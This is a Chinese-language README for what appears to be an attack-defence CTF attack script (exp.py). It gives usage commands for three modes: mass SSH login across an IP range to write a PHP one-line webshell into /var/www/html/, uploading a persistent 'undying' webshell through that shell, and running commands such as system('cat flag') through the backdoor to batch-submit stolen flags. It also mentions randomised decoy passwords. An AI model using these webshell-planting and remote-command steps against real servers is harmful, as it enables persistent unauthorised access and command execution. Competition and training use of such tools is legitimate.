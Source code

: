 这个frame暂时只写了三个攻击模块。

这里没写打payload的模块，感觉这个模块的可控性比较低，可以自己写了调用command.py中的sendflag方法。

##### 场景一： 如果有相同的ssh密码的话可以直接利用ssh模块快速登录执行命令，使用默认命令的话会写入到/var/www/html/目录md5的一句话，接着利用一句话上传不死马，会接着访问，然后会询问是否接着执行getflag的命令接着批量提交flag，提交flag的话需要设置send.txt文件，抓一下提交flag的包复制进去，将flag位置设置为{flag}，cookie等不需要再设置。
```
python exp.py --mode ssh --ip 192.168.190.1-200
```
##### 场景二： 已经有了一句话，可以接着执行命令中不死马，然后批量提交flag。

注意这个paawd的密码默认md5的话是cmd而不是p0desta.top，跟其他的一句话一样。
```
python exp.py --mode upload --ip 192.168.190.128 --path "/.config.php" --passwd "cmd" --localshell "p0desta.top.php"
```

##### 场景三： 后门已经中好，直接利用一句话来提交flag。

```
python exp.py --mode submit --ip 192.168.190.1-200 --path "/.config.php" --passwd "cmd" --command "system('cat flag');"
```

另外这里访问md5马的时候会随机打出若干混淆密码，都是32位的md5值。
```
987aed24dbac1610cd95edb012fcdf35    -md5->  9b114784e0951159b37d5afacac7199c
```